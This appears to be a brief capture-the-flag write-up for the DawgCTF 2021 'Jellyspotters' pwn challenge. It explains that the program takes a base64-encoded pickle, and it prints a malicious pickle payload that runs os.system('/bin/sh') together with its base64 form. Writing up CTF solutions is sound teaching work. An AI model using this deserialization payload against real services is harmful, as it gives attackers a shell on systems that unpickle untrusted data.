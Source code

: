 Jellyspotters - Pwn

---
title: Jellyspotters
date: 2020-05-08
excerpt: "'Jellyspotters' was a challenge in the Pwn category of DawgCTF 2021"
classes: wide
categories: dawgctf2021
tags:
  - dawgctf2021
  - pwn
  - python
  - pickle
  - base64
---


![img](/assets/images/ctf/dawgctf2021-jellyspotters/0.png)


![img](/assets/images/ctf/dawgctf2021-jellyspotters/1.png)

The interesting function is `import`

Breaking the `import` function gives us an error


![img](/assets/images/ctf/dawgctf2021-jellyspotters/2.png)

So it wants a **base64** encoded pickle object and we need to read the flag. Let's get a shell using a malicious pickle object.

reading: https://checkoway.net/musings/pickle/

```
cos
system
(S'/bin/sh'
tR.
```

base64 encoding that gives us

`Y29zCnN5c3RlbQooUycvYmluL3NoJwp0Ui4=`

and passing that to the program...


![img](/assets/images/ctf/dawgctf2021-jellyspotters/3.png)
